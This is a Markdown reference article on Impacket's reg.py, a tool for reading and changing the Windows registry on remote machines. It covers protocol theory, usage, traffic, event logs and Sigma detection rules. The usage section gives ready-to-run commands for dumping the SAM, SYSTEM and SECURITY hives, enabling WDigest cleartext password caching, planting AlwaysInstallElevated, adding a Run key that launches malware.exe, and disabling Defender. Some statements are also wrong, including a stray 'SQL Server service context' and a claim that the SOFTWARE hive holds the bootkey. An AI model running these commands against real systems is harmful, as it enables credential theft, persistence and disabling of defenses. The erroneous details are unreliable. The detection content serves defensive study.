


title: "reg.py"
script: "examples/reg.py"
category: "Remote System Interaction"
status: "Published"
protocols:
  - MS-RRP
  - SMB
  - NetBIOS
ms_specs:
  - MS-RRP
  - MS-SMB
  - MS-SCMR
mitre_techniques:
  - T1003.002
  - T1012
  - T1112
  - T1547.001
  - T1484.001
  - T1569.002
auth_types:
  - password
  - nt_hash
  - aes_key
  - kerberos_ccache
tags:
  - impacket
  - impacket/examples
  - category/remote_system_interaction
  - status/published
  - protocol/ms_rrp
  - protocol/smb
  - protocol/winreg
  - authentication/ntlm
  - authentication/kerberos
  - technique/remote_registry
  - technique/registry_query
  - technique/registry_modification
  - technique/hive_save
  - technique/alwaysinstallelevated
  - technique/autologon_credential_theft
  - technique/run_key_persistence
  - mitre/T1003/002
  - mitre/T1012
  - mitre/T1112
  - mitre/T1547/001
  - mitre/T1484/001
aliases:
  - reg
  - impacket-reg
  - remote_registry


# reg.py

> **One line summary:** Remote registry manipulation client that speaks the Windows Remote Registry Protocol (MS-RRP) over SMB named pipes to query, modify, create, delete, and save registry keys and values on target Windows systems, enabling both reconnaissance (reading configuration, identifying credential storage locations, auditing hardening settings) and direct attack primitives (AlwaysInstallElevated exploitation, AutoLogon credential theft, Run key persistence, policy bypass), while serving as the underlying mechanism for [`secretsdump.py`](../03_credential_access/secretsdump.md)'s default SAM/SYSTEM/SECURITY hive extraction mode that saves the three registry hives to remote disk via `REG_OPTION_BACKUP_RESTORE` and then retrieves them over SMB.

| Field | Value |
|:---|:---|
| Script | `examples/reg.py` |
| Category | Remote System Interaction |
| Status | Published |
| Primary protocols | MS-RRP (Windows Remote Registry Protocol), SMB |
| Primary Microsoft specifications | `[MS-RRP]`, `[MS-SMB]`, `[MS-SCMR]` |
| MITRE ATT&CK techniques | T1003.002 OS Credential Dumping: Security Account Manager, T1012 Query Registry, T1112 Modify Registry, T1547.001 Registry Run Keys / Startup Folder, T1484.001 Group Policy Modification, T1569.002 Service Execution |
| Authentication types supported | Password, NT hash, AES key, Kerberos ccache |
| First appearance in Impacket | Early Impacket |
| Original authors | Manuel Porto (`@manuporto`) and Alberto Solino (`@agsolino`) |


## Prerequisites

This article builds on:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`smbclient.py`](../05_smb_tools/smbclient.md) for SMB session foundations, including named pipe access patterns.
- [`rpcdump.py`](../01_recon_and_enumeration/rpcdump.md) for DCE/RPC and MSRPC fundamentals.
- [`psexec.py`](../04_remote_execution/psexec.md) for the Service Control Manager (SCMR) pattern, which `reg.py` also uses to start the Remote Registry service.
- [`secretsdump.py`](../03_credential_access/secretsdump.md) for the canonical downstream use of this tool's hive save capability. The registry mode of `secretsdump.py` is effectively `reg.py save` for SAM, SYSTEM, and SECURITY, followed by local parsing.


## What it does

`reg.py` is a remote registry client for Windows systems. It provides functionality analogous to the local Windows `reg.exe` utility but operates against a remote machine over the network. The tool supports the following actions:

| Action | Purpose |
|:---|:---|
| `query` | Read a registry key's values or enumerate its subkeys. |
| `add` | Create a new registry key or add/modify a value. |
| `delete` | Remove a registry key or a specific value. |
| `save` | Save a registry hive to a file on the remote system. |
| `load` | Load a registry hive from a file into a new key. |
| `unload` | Unload a previously loaded hive. |
| `enum` | Recursively enumerate an entire key tree. |
| `backup` | Create a backup of a hive (functionally similar to save). |

The tool operates on the standard Windows registry root keys:

| Root key | Full name | Purpose |
|:---|:---||
| `HKLM` | HKEY_LOCAL_MACHINE | System-wide settings. Contains SAM, SYSTEM, SECURITY, SOFTWARE hives. |
| `HKU` | HKEY_USERS | Per-user settings for all loaded user profiles. |
| `HKCR` | HKEY_CLASSES_ROOT | File associations and COM class registrations (alias for `HKLM\SOFTWARE\Classes`). |
| `HKCC` | HKEY_CURRENT_CONFIG | Current hardware profile (alias within HKLM). |
| `HKCU` | HKEY_CURRENT_USER | Current user's settings (alias within HKU for the current logon session). |

The tool requires administrative privileges on the target to perform most operations. Standard domain users without admin access on the target can typically only read certain public keys (like software version information). Write operations, hive saves, and access to SAM/SECURITY require local admin.

Key operational capabilities:

- **Remote Registry service autostart.** If the Remote Registry service is not running on the target, `reg.py` starts it automatically via SCMR, performs the requested operation, and can restore the original service state afterward.
- **Hive save with BACKUP_RESTORE flag.** The `save` action uses the `REG_OPTION_BACKUP_RESTORE` flag which bypasses normal access control checks that would prevent reading `HKLM\SAM` and `HKLM\SECURITY`.
- **Binary and string value support.** All standard registry value types are supported: REG_SZ, REG_DWORD, REG_BINARY, REG_MULTI_SZ, REG_EXPAND_SZ.


## Why it exists

Active Directory and Windows endpoint configuration is largely stored in the registry. Group Policy settings, installed software inventory, security hardening configuration, service configurations, persistence entries, and credential storage locations all live there. For an attacker, the registry is both a reconnaissance treasure trove and a direct attack surface.

The registry is also the storage for several credential types:

- **SAM hive:** contains local account password hashes.
- **SECURITY hive:** contains LSA secrets (cached domain credentials, service account passwords, DPAPI system key).
- **SOFTWARE hive:** contains the bootkey needed to decrypt SAM.
- **SYSTEM hive:** contains the bootkey components and service configuration.

These four hives are why [`secretsdump.py`](../03_credential_access/secretsdump.md)'s default mode uses remote registry: the tool needs to extract these hives to parse them offline. The mechanism to extract them is exactly what `reg.py save` does.

Manuel Porto and Alberto Solino built `reg.py` as an early Impacket example. It filled a specific gap: Windows has `reg.exe` which supports remote operations, but it requires Windows and does not support pass the hash. Linux operators working with Windows targets needed an equivalent capability that worked from their attack host. Impacket's `reg.py` provides this.

Over time, the tool's scope expanded. Early versions had `save`, `load`, `unload`, `copy`, and some other commands commented out as unfinished. Modern versions (0.12.0 and later) have these fully implemented. The current version is a mature tool covering essentially all useful registry operations.


## The protocol theory

Registry manipulation over the network uses the Windows Remote Registry Protocol, specified in `[MS-RRP]`. This section covers what is operationally relevant.

### MS-RRP overview

MS-RRP is a DCE/RPC interface defined by UUID `338cd001-2244-31f1-aaaa-900038001003`. It is transported over SMB named pipe (`\pipe\winreg`) rather than over direct TCP. This is an important detail: MS-RRP requires an established SMB session to the target, which requires authentication via SMB.

The protocol exposes methods that map closely to the Windows registry API (`RegOpenKey`, `RegSaveKey`, `RegQueryValue`, etc.) with minor naming differences. The Impacket wrappers add an `h` prefix: `hBaseRegOpenKey`, `hBaseRegSaveKey`, and so on. These helpers simplify the DCE/RPC marshaling.

Common MS-RRP operations used by `reg.py`:

| MS-RRP method | Purpose |
|:---|:---|
| `BaseRegOpenKey` | Open a handle to a registry key. |
| `BaseRegEnumKey` | Enumerate subkeys under a key. |
| `BaseRegEnumValue` | Enumerate values within a key. |
| `BaseRegQueryValue` | Read a specific value. |
| `BaseRegSetValue` | Write a value. |
| `BaseRegCreateKey` | Create a new key. |
| `BaseRegDeleteKey` | Delete a key. |
| `BaseRegDeleteValue` | Delete a specific value. |
| `BaseRegSaveKey` | Save a key (hive) to a file on the remote system. |
| `BaseRegRestoreKey` | Restore a hive from a file. |
| `OpenLocalMachine` | Open a handle to HKLM specifically. Similarly `OpenUsers`, `OpenClassesRoot`, etc. |
| `BaseRegCloseKey` | Close a key handle. |

The call pattern is standard for Windows RPC interfaces: open a root key handle, then open a subkey relative to that, perform operations, close handles.

### The Remote Registry service

MS-RRP operations require the Remote Registry service (`RemoteRegistry`) to be running on the target. This service is:

- **Enabled and running by default on Windows Server operating systems** through Windows Server 2019.
- **Disabled by default on Windows client operating systems** (Windows 10, Windows 11).
- **Explicitly stopped by many hardening baselines** on both client and server.

When the service is not running, MS-RRP connections fail immediately. `reg.py` handles this gracefully:

1. Before the actual registry operation, the tool checks the Remote Registry service status via SCMR (the same SCMR interface used by [`psexec.py`](../04_remote_execution/psexec.md)).
2. If the service is stopped, the tool starts it.
3. The tool performs the requested operation.
4. On exit, the tool can restore the service to its original state (stopped or disabled).

This autostart behavior is itself a detection opportunity (Event 7036 on the target logs service state changes).

### Access masks and the KEY_WRITE trick

When opening a registry key, the caller specifies a desired access mask. Standard masks:

| Mask | Value | Purpose |
|:---|:---||
| `KEY_QUERY_VALUE` | `0x0001` | Read values. |
| `KEY_SET_VALUE` | `0x0002` | Write values. |
| `KEY_CREATE_SUB_KEY` | `0x0004` | Create subkeys. |
| `KEY_ENUMERATE_SUB_KEYS` | `0x0008` | Enumerate subkeys. |
| `KEY_READ` | `0x20019` | Combined read rights. |
| `KEY_WRITE` | `0x20006` | Combined write rights. |
| `MAXIMUM_ALLOWED` | `0x02000000` | Request the maximum access the caller is entitled to. |

The source code of `reg.py` contains this comment:

```text
# READ_CONTROL | rrp.KEY_SET_VALUE | rrp.KEY_CREATE_SUB_KEY should be equal to KEY_WRITE (0x20006)
```

The tool computes `KEY_WRITE` manually as `READ_CONTROL | KEY_SET_VALUE | KEY_CREATE_SUB_KEY` because some RPC implementations are picky about the exact combination of bits. Both forms should be equivalent but the explicit form avoids edge cases.

### REG_OPTION_BACKUP_RESTORE: the magic flag for hive saves

The `save` action is where `reg.py` does its most interesting work. Saving `HKLM\SAM` or `HKLM\SECURITY` via normal registry access is blocked: these hives have DACLs that deny read access even to SYSTEM on modern Windows versions.

The bypass is the `REG_OPTION_BACKUP_RESTORE` flag combined with the `SeBackupPrivilege` (held by local admins by default). When a key is opened with this flag, the normal DACL checks are replaced with a check for backup privilege. The caller can read any key regardless of its DACL.

The relevant source code snippet:

```python
ans2 = rrp.hBaseRegOpenKey(dce, hRootKey, subKey,
    dwOptions=rrp.REG_OPTION_BACKUP_RESTORE | rrp.REG_OPTION_OPEN_LINK,
    samDesired=rrp.KEY_READ)
rrp.hBaseRegSaveKey(dce, ans2['phkResult'], outputFileName)
```

The tool opens the target key with `REG_OPTION_BACKUP_RESTORE` (bypass DACL) and `REG_OPTION_OPEN_LINK` (follow symbolic links), then calls `BaseRegSaveKey` which writes the hive's contents to a file on the remote system.

This is the mechanism that enables SAM/SYSTEM/SECURITY extraction for local credential harvesting. It is the same mechanism [`secretsdump.py`](../03_credential_access/secretsdump.md) uses in its default (registry) mode.

### Hive save output location

The `BaseRegSaveKey` call writes the hive to a path on the remote system's filesystem. The path is relative to the SQL Server service context (which is the `svchost.exe` hosting the Remote Registry service). By convention, `reg.py` writes to a randomly named file in a specific path; `secretsdump.py` uses `%SystemRoot%\Temp\<random>.tmp`.

After the hive is written to the remote system, a separate SMB operation is needed to retrieve it. `reg.py save` handles this automatically when the operator specifies an output filename with the `-o` flag: it saves the hive on the target, retrieves the file over SMB to the attacker's machine, and cleans up the remote copy.

### Credential storage in the registry

For recon and attack purposes, several specific registry locations commonly contain sensitive data:

**`HKLM\SAM\SAM\Domains\Account\Users`**. Local account NTLM hashes. Requires SeBackupPrivilege or hive save via REG_OPTION_BACKUP_RESTORE. Parsed by `secretsdump.py`.

**`HKLM\SECURITY\Policy\Secrets`**. LSA secrets including cached domain credentials and service account passwords. Same access requirements as SAM.

**`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`**. AutoLogon credentials stored in cleartext if auto logon is enabled:
- `DefaultUserName`: the username.
- `DefaultDomainName`: the domain.
- `DefaultPassword`: the cleartext password.
These are readable by any authenticated user on some systems, depending on permissions.

**`HKLM\SYSTEM\CurrentControlSet\Services\<service>\Parameters`**. Service configuration data that sometimes contains credentials (especially for third party software with poorly designed configuration storage).

**`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`**. Run keys. Read for persistence entry enumeration; write for persistence establishment.

**`HKLM\SYSTEM\CurrentControlSet\Control\Lsa`**. LSA configuration. Writable modifications enable interesting attack patterns (disabling Restricted Admin restrictions, enabling WDigest, etc.).

### AlwaysInstallElevated

The AlwaysInstallElevated feature of Windows Installer permits standard users to install MSI packages with elevated privileges. When enabled, it represents a privilege escalation path because the MSI installer runs as SYSTEM.

Configuration via registry:

- `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` = `1`
- `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` = `1`

Both must be set to `1` for the feature to activate.

`reg.py query` can check these values (reconnaissance before escalation). `reg.py add` can set them if the attacker has local admin but wants to leave a privilege escalation primitive behind for a non admin user context.

### WDigest and LSA configuration

WDigest authentication, used by older Windows versions, stores cleartext passwords in memory for use with HTTP digest authentication. Disabled by default on Windows 8.1 / Server 2012 R2 and later. Can be re-enabled via registry:

```text
HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential = 1
```

Setting this value causes LSA to start caching cleartext passwords for all logons after the next reboot (or for new logons, depending on version). Attackers with local admin can enable this, wait for privileged users to log on, then extract the cleartext passwords via mimikatz or similar tools.

`reg.py add` is the remote mechanism for enabling this value. Detection of the change is a high-fidelity signal of credential theft preparation.

### Run keys for persistence

The classic persistence registry locations:

- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

Values under these keys are executable paths that run at login. Adding a value means code execution on next logon by whoever logs on (HKCU) or everyone (HKLM).

`reg.py add` with a malicious path establishes persistence. This is generally loud (these paths are monitored by all credible EDR products) but remains a common technique.


## How the tool works internally

The script structure is straightforward.

1. **Argument parsing.** Identity string, target specifier, and the subcommand (`query`, `add`, `delete`, `save`, `load`, `unload`, `enum`). Each subcommand has its own argument set.

2. **SMB connection.** Uses `SMBConnection` to establish an SMB session with the target using the specified credentials.

3. **Remote Registry service check.** Calls `impacket.dcerpc.v5.scmr` functions to connect to the Service Control Manager. Queries the `RemoteRegistry` service state. If stopped:
    - Saves the original start mode (auto/manual/disabled).
    - Changes start mode to manual if it was disabled.
    - Starts the service.
    - Sets a flag to restore the state on exit.

4. **MS-RRP binding.** Opens the `\winreg` named pipe via SMB. Binds to the MS-RRP interface (UUID `338cd001-2244-31f1-aaaa-900038001003`).

5. **Root key resolution.** Based on the requested key name (starts with `HKLM`, `HKU`, etc.), calls the corresponding open function:
    - `HKLM` → `hOpenLocalMachine`
    - `HKU` → `hOpenUsers`
    - `HKCR` → `hOpenClassesRoot`
    - `HKCC` → `hOpenCurrentConfig`
    - `HKCU` → `hOpenCurrentUser`

6. **Subcommand dispatch.** Executes the specific operation:
    - **`query`:** opens the specified key, calls `BaseRegEnumValue` or `BaseRegQueryValue`, formats output.
    - **`add`:** opens the parent key with KEY_WRITE, calls `BaseRegCreateKey` (for new keys) or `BaseRegSetValue` (for values).
    - **`delete`:** opens the parent key, calls `BaseRegDeleteKey` or `BaseRegDeleteValue`.
    - **`save`:** opens the key with `REG_OPTION_BACKUP_RESTORE`, calls `BaseRegSaveKey` with a target filename on the remote system. Optionally retrieves the saved file via SMB.
    - **`load`:** reads a local file, calls `BaseRegLoadKey` to mount it as a subkey of HKU or HKLM.
    - **`unload`:** calls `BaseRegUnloadKey` to unmount a previously loaded hive.
    - **`enum`:** recursively walks the key tree, calling `BaseRegEnumKey` and `BaseRegEnumValue` for each level.

7. **Cleanup.** Closes all registry handles via `BaseRegCloseKey`. Restores Remote Registry service state if it was modified.

8. **SMB tree disconnect and logoff.** Standard SMB session teardown.

The implementation is a clean reference example of how MS-RRP operations flow. The full client in fewer than 1000 lines of Python demonstrates the protocol elegantly.


## Authentication options

Standard four-mode pattern. Authentication is SMB authentication (since MS-RRP travels over SMB named pipes).

### Cleartext password

```bash
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 query -keyName 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion'
```

### NT hash

```bash
reg.py CORP.LOCAL/admin@10.0.0.50 -hashes :<nthash> query -keyName 'HKLM\SAM'
```

### Kerberos ccache

```bash
export KRB5CCNAME=admin.ccache
reg.py CORP.LOCAL/admin@10.0.0.50 -k -no-pass query -keyName 'HKLM\SYSTEM'
```

### AES key

```bash
reg.py CORP.LOCAL/admin@10.0.0.50 -aesKey <hex> -k -no-pass query -keyName 'HKLM\SOFTWARE'
```

### Minimum required privileges

- **Query HKLM\SOFTWARE public keys:** any authenticated user (if Remote Registry is accessible).
- **Query HKLM\SYSTEM most values:** local admin.
- **Query HKLM\SAM, HKLM\SECURITY:** requires hive save via `REG_OPTION_BACKUP_RESTORE` with SeBackupPrivilege (local admin default).
- **Write operations on HKLM:** local admin.
- **Start Remote Registry service (if stopped):** local admin, or specific SCMR permissions for the RemoteRegistry service.

In practice, `reg.py` operations effectively require local admin on the target. Domain users with just user privileges can technically perform some reads, but the attack-relevant operations all require elevation.


## Practical usage

### Query a specific value

```bash
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 query \
  -keyName 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion' \
  -v ProductName
```

Returns the Windows product name (e.g., "Windows Server 2022 Standard"). Used for reconnaissance to identify the OS version.

### Enumerate all values under a key

```bash
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 query \
  -keyName 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon'
```

Omits `-v`, so all values under the Winlogon key are returned. If AutoLogon is configured, `DefaultUserName`, `DefaultDomainName`, and `DefaultPassword` are readable (the last in cleartext).

### Recursive enumeration

```bash
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 query \
  -keyName 'HKLM\SOFTWARE\Microsoft' -s
```

The `-s` flag makes the query recursive. Can produce enormous output for large keys; use sparingly.

### Save SAM, SYSTEM, and SECURITY hives (the secretsdump mechanism)

```bash
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 save -keyName 'HKLM\SAM' -o 'C:\Windows\Temp\sam.save'
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 save -keyName 'HKLM\SYSTEM' -o 'C:\Windows\Temp\system.save'
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 save -keyName 'HKLM\SECURITY' -o 'C:\Windows\Temp\security.save'
```

Saves each hive to a file on the remote system. The tool handles retrieval over SMB automatically. This is the manual version of what [`secretsdump.py`](../03_credential_access/secretsdump.md) does in its registry mode. The resulting files can be parsed with `secretsdump.py -sam sam.save -system system.save -security security.save LOCAL` for offline analysis.

### Enable WDigest cleartext password caching

```bash
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 add \
  -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' \
  -v UseLogonCredential -vt REG_DWORD -vd 1
```

Sets the `UseLogonCredential` value to 1. After the next logon (or reboot), LSA will cache cleartext credentials in memory for extraction via mimikatz. Very loud; most EDR products detect this immediately.

### Enable AlwaysInstallElevated for privilege escalation persistence

```bash
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 add \
  -keyName 'HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer' \
  -v AlwaysInstallElevated -vt REG_DWORD -vd 1

reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 add \
  -keyName 'HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer' \
  -v AlwaysInstallElevated -vt REG_DWORD -vd 1
```

After these changes, any user on the target can install a crafted MSI package that runs as SYSTEM. Creates a permanent privilege escalation path for future sessions. The HKCU setting only affects the user whose profile is currently loaded, which may require logging in as the target user first.

### Check for AlwaysInstallElevated (reconnaissance)

```bash
reg.py CORP.LOCAL/user:'P@ss'@10.0.0.50 query \
  -keyName 'HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer' -v AlwaysInstallElevated
```

If this returns `1`, any user on the system can escalate to SYSTEM via a crafted MSI. Worth checking on every target; surprisingly common in enterprises with sloppy deployment practices.

### Establish Run key persistence

```bash
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 add \
  -keyName 'HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' \
  -v Updater -vt REG_SZ -vd 'C:\Windows\Temp\malware.exe'
```

Adds a value named `Updater` pointing to the attacker's payload. The payload runs for any user who logs into the machine after this change. Loud; monitored by essentially every EDR product. But still broadly used because it works.

### Disable Windows Defender via registry

```bash
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 add \
  -keyName 'HKLM\SOFTWARE\Policies\Microsoft\Windows Defender' \
  -v DisableAntiSpyware -vt REG_DWORD -vd 1
```

Disables Defender's antimalware scanning (for versions that honor this setting). Tamper Protection defeats this on modern versions, but older or misconfigured environments remain vulnerable. Highly detectable.

### Enumerate services for persistence targets

```bash
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 query \
  -keyName 'HKLM\SYSTEM\CurrentControlSet\Services' -s
```

Lists all services. The output is large; operators typically pipe to grep for specific patterns (unquoted service paths, services with weak file permissions on their binaries, etc.).

### Load a hive from a file

```bash
reg.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 load \
  -keyName 'HKU\TEMP' -o '/path/to/captured/NTUSER.DAT'
```

Loads a user profile hive (NTUSER.DAT) that was extracted from the filesystem into a subkey of HKU. The loaded hive's contents become queryable via `HKU\TEMP\...`. After operations, `unload` removes the hive.

### Key flags

| Flag | Meaning |
|:---|:---|
| `target` (positional) | Domain/username[:password]@target. |
| `query` / `add` / `delete` / `save` / `load` / `unload` / `enum` | Subcommand specifying the operation. |
| `-keyName <n>` | The registry key path (includes root key: `HKLM\...`, `HKCU\...`). |
| `-v <n>` | Value name (for query, add, delete). |
| `-vt <type>` | Value type (REG_SZ, REG_DWORD, REG_BINARY, REG_MULTI_SZ, REG_EXPAND_SZ). |
| `-vd <data>` | Value data. |
| `-ve` | Query the default (empty name) value. |
| `-va` | Query/delete all values under the key. |
| `-s` | Recursive operation (for query). |
| `-o <path>` | Output path (for save; remote path on the target). |
| `-hashes`, `-aesKey`, `-k`, `-no-pass` | Standard authentication flags. |
| `-dc-ip`, `-target-ip` | Explicit DC or target IP. |
| `-debug` | Debug output. |
| `-ts` | Timestamp logging. |


## What it looks like on the wire

MS-RRP over SMB named pipe. The traffic patterns have several distinctive phases.

### SMB session establishment

- TCP connection to port 445.
- SMB negotiate, session setup with NTLM or Kerberos.
- Tree connect to `IPC$`.

### SCMR exchange (if Remote Registry service needs starting)

- Open `\svcctl` named pipe.
- Bind to SCMR interface.
- Call `ROpenSCManagerW` to open SCM handle.
- Call `ROpenServiceW` for `RemoteRegistry`.
- Call `RQueryServiceStatus` to check current state.
- If stopped, call `RChangeServiceConfigW` (if needed to unset disabled state) and `RStartServiceW`.

### MS-RRP binding

- Open `\winreg` named pipe.
- Bind to MS-RRP interface (UUID `338cd001-2244-31f1-aaaa-900038001003`).

### Registry operations

- Call `OpenLocalMachine` or equivalent to get root handle.
- Call `BaseRegOpenKey` to get subkey handles.
- Call operation-specific functions (`BaseRegSaveKey`, `BaseRegSetValue`, etc.).
- Call `BaseRegCloseKey` for cleanup.

### Wireshark filters

```text
dcerpc                                    # all DCE/RPC
dcerpc.cn_bind                            # BIND requests
dcerpc.if_id == 338cd001-2244-31f1-aaaa-900038001003   # MS-RRP specifically
dcerpc.if_id == 367abb81-9844-35f1-ad32-98f038001003   # MS-SCMR (service control)
smb2                                       # SMB2 traffic
smb2.filename contains "winreg"           # named pipe access
```

The MS-SCMR traffic at the start of a `reg.py` session (for starting Remote Registry) is a distinguishing pattern. A SCMR exchange followed by MS-RRP binding indicates a tool that automatically manages Remote Registry service state, which `reg.py` does and most legitimate tools do not.


## What it looks like in logs

Registry manipulation leaves traces in several Windows event logs.

### Event ID 4688 / Sysmon Event ID 1: Process creation

When the Remote Registry service is started, `svchost.exe -k LocalService` becomes active if it was not already. Not particularly distinctive.

### Event ID 7036: Service state change

If `reg.py` starts the Remote Registry service, Event 7036 fires:

```text
The Remote Registry service entered the running state.
```

And on cleanup:

```text
The Remote Registry service entered the stopped state.
```

The pairing of these events, close in time and from a source that rarely uses Remote Registry, is anomalous. This is the primary network-level signal of `reg.py` usage against a system where Remote Registry was disabled.

### Event ID 4657: A registry value was modified

Fires when registry values are modified, but only if audit policy is configured for the specific key. The SACL on the registry key must specify auditing for the relevant operation.

Most environments do not enable registry modification auditing by default because the volume would be enormous. The exception: specific high-value keys where auditing is explicitly configured (like `HKLM\SYSTEM\CurrentControlSet\Control\Lsa` for WDigest monitoring).

### Sysmon Event IDs 12, 13, 14: Registry object events

Sysmon, when deployed, logs registry activity at much higher fidelity than native Windows auditing:

| Event | Trigger |
|:---|:---|
| 12 | RegistryEvent (Object create and delete) - key creation/deletion. |
| 13 | RegistryEvent (Value Set) - value modification. |
| 14 | RegistryEvent (Key and Value Rename). |

Sysmon can be filtered to focus on attack-relevant paths: Run keys, LSA configuration, AlwaysInstallElevated, WDigest settings, service configurations. A well-tuned Sysmon configuration with registry monitoring catches the modification attacks enabled by `reg.py` with high fidelity.

### Event ID 4663: An attempt was made to access an object (including hive saves)

When a registry hive save operation executes, the kernel's SAM/SECURITY/SYSTEM access generates 4663 events if auditing is enabled. The specific trigger is `BaseRegSaveKey` which reads the hive.

These events identify the source account (the attacker's authenticated user), the target (the hive being saved), and the specific access.

### Starter Sigma rules

```yaml
title: Remote Registry Service Started Externally
logsource:
  product: windows
  service: system
detection:
  selection:
    EventID: 7036
    ServiceName: 'Remote Registry'
    ServiceState: 'running'
  condition: selection
level: medium
```

Detects Remote Registry service starting. Common during `reg.py` and [`secretsdump.py`](../03_credential_access/secretsdump.md) usage. Needs tuning against legitimate administrative use.

```yaml
title: WDigest UseLogonCredential Enabled
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: 13
    TargetObject|contains: 'SecurityProviders\WDigest\UseLogonCredential'
    Details: 'DWORD (0x00000001)'
  condition: selection
level: critical
```

Extremely high fidelity. Setting this value is essentially diagnostic of credential theft preparation. Almost no legitimate use case in modern environments.

```yaml
title: AlwaysInstallElevated Enabled Remotely
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: 13
    TargetObject|contains: 'Policies\Microsoft\Windows\Installer\AlwaysInstallElevated'
    Details: 'DWORD (0x00000001)'
  condition: selection
level: high
```

Detects the escalation primitive being planted. Legitimate use is rare in non-development environments.

```yaml
title: SAM or SECURITY Hive Accessed Remotely
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4663
    ObjectName|contains:
      - '\SAM\'
      - '\SECURITY\'
    AccessMask|contains: '0x20019'  # KEY_READ
  filter_system:
    SubjectUserSid: 'S-1-5-18'
  condition: selection and not filter_system
level: high
```

Catches explicit SAM/SECURITY hive reads. Very high fidelity; legitimate SAM/SECURITY access is rare outside specific backup tools and should be traceable to known actors.


## Detection and defense

### Detection opportunities

**Remote Registry service starting.** The service being started from a non-routine source is a high-confidence signal, especially when paired with subsequent registry activity.

**Sysmon registry monitoring on sensitive keys.** A tuned Sysmon config focusing on LSA, WDigest, AlwaysInstallElevated, Run keys, and service configurations catches the attack-relevant modifications with low false positive rates.

**Hive save operations.** The specific combination of `BaseRegOpenKey` with `REG_OPTION_BACKUP_RESTORE` followed by `BaseRegSaveKey` against SAM/SECURITY/SYSTEM is nearly diagnostic. Kernel auditing can catch this.

**MS-RRP traffic baseline deviations.** Environments where Remote Registry is normally unused should see essentially zero MS-RRP traffic. Any such traffic is anomalous.

**Microsoft Defender for Endpoint registry alerts.** MDE detects several of the specific attack patterns (WDigest modification, Run key persistence, disabled Defender) out of the box.

### Preventive controls

- **Disable Remote Registry service on systems that do not require it.** The service is enabled by default only on Windows Server (through 2019). On clients and hardened servers, disable the service and set its start mode to Disabled. This breaks `reg.py`, `secretsdump.py` registry mode, and many other tools that rely on remote registry access.
- **Configure registry SACLs for high-value keys.** Enable auditing on `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`, Run keys, and other sensitive paths. Generates 4657 events on modifications.
- **Deploy Sysmon with registry monitoring.** Use a well-tuned configuration (SwiftOnSecurity's Sysmon config or equivalent) that specifically monitors attack-relevant registry paths.
- **Enable LSA Protection (RunAsPPL).** Protects LSA memory from tampering. Does not prevent registry modification but limits the downstream impact (WDigest re-enablement has less value if mimikatz cannot read LSA).
- **Enable Credential Guard.** Protects credential memory with virtualization. Similar rationale: limits downstream impact.
